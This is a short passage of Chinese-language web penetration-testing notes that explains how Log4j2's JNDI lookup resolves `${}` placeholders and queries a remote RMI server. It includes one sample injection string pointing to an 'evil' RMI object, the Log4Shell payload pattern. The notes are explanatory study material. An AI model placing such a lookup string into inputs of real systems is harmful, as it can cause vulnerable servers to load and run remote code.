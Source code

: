 

md5碰撞

弱比较



# JAVA漏洞



## Log4j2

JNDI，英文是：Java Naming and Directory Interface

![image-20241215151613403](./Web%E6%B8%97%E9%80%8F.assets/image-20241215151613403.png)



RMI（Remote Method Invocation）

log4j2在执行的时候，会扫描占位符，比如`${}`，然后`lookup`机制开始启动。

**查找提供器**：Log4j2 会使用一组查找提供器来查找占位符对应的值。查找提供器可以包括：

- `SystemPropertyLookup`（查找系统属性）
- `EnvLookup`（查找环境变量）
- `JndiLookup`（查找 JNDI）
- 其他用户定义的查找器

**调用 `lookup` 方法**：对于 JNDI 查找，例如 `${jndi:rmi://localhost:1099/evil}`，Log4j2 会调用 JNDI API（通过 `JndiManager`）来执行查找。具体来说，Log4j2 会在 `JndiLookup` 中执行 `lookup` 方法，该方法会查询远程 RMI 服务器，解析出一个对象，并将其返回。
